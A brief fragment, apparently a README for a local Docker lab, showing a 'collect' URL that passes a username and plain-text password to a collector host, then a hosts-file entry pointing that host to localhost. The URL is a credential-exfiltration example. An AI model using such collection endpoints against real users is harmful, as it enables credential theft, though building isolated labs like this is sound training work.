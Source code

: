 http://tueshacke.com:9000/collect?u=admin&p=MOHmoh1780@
Windows : C:\Windows\System32\drivers\etc\hosts
127.0.0.1 tueshacke.com
docker-compose build
docker-compose up -d

